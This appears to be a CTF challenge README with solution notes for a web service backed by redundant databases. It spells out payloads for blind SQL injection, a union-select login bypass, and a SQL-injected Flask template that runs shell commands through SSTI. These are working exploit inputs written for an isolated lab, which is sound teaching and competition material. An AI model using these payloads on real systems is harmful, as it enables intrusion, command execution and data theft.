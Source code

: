 # Info
This task is based on an old idea that you can make several redundant versions of the same service to make it difficult to exploit.

We even brought a very similar binary challenge to Belluminar Beijing 2016 (see https://github.com/leetchicken/belluminar/tree/master/100percent).
 
The idea was also developed in a chinese mitigation system called "Cyber Mimic Defense". Its authors even organized a special CTF in Nanjing in May 2018, which we won.

We partially bypassed that mitigation system using timing side channel attack.
Funny part is that this challenge also was prone to such attack, which was unintended (0daysober team used it).

The reason is that initially the stacked queries were not allowed (so that you could not make 'waitfor delay' call), but then I added a second stage with the procedure and had to allow stacked queries =)  

Another alternative part of solution used by 0daysober is to declare your own variable with null-byte to exploit stored procedure and overwrite arbitrary files.

# Solution
Find the following vulnerabilities:
- SQL injection in auth controller
- SQL injection leading to aribtrary files creation in sp_logEvent procedure
- Limited template inclusion in Flask

1) Exfiltrate the source code of sp_logEvent procedure. This can be done by randomized algorithm using the following payload (see exp.py):
```python
payload = '''" or 1=1# $$ or 1=1 -- ' or ascii(substring((%s),%s,1))>%s -- a'''
```
The idea is as follows: MySQL and PostgreSQL return positive result in the query with 50% probability, SQLite always returns false, hence we can manipulate the consensus and exfiltrate 1 bit of information with 25% chance.

2) Exploit fragmented injection in procedure to write arbitrary files, injection exists due to variable truncation to 40 bytes. We'll use SSTI payload to execute arbitrary commands through Flask templates:
```
POST /admin/login/ HTTP/1.1
. . .
username='%3bexec+sp_logEvent+"{{''.__class__.mro()[2].__subclasses__()[231]('type+..\..\\flag*+>+templates/sb-admin/pages/res.html',shell=True)}}",+'../server//////////////////////////////''',+',"../templates/sb-admin/pages/x.html"--+'%3b+--+&password=asd
```
We could also simply overwrite app.py, but Flask won't reload automatically if debug=False.

3) Obtain admin session. We need to repeat the following request several times until the consensus will be on our side:
```
POST /admin/login/ HTTP/1.1
. . .
username=root'+union+select+0,'root','7815696ecbf1c96e6894b779456d330e'+--+&password=asd
```
4) Visit /admin/?page=x and get the flag from /admin/?page=res

# Deployment notes
It is better to deploy this task separately for each team to avoid disturbance.

The outbound connections from the VM are disabled in Windows Firewall (to avoid OOB exploitation), thus you need to specify static IP address.

Task can be started by run.bat, which restores original app.py (just in case) and runs it in loop. We've also put it in autorun.

Flag should be put in a file with unpredictable name (currently flag_with_unpredictable_name_i21uiuaoisdjij.txt in Desktop folder).

I haven't recorded all the steps to properly deploy all the DMBS, it was quite painful =)
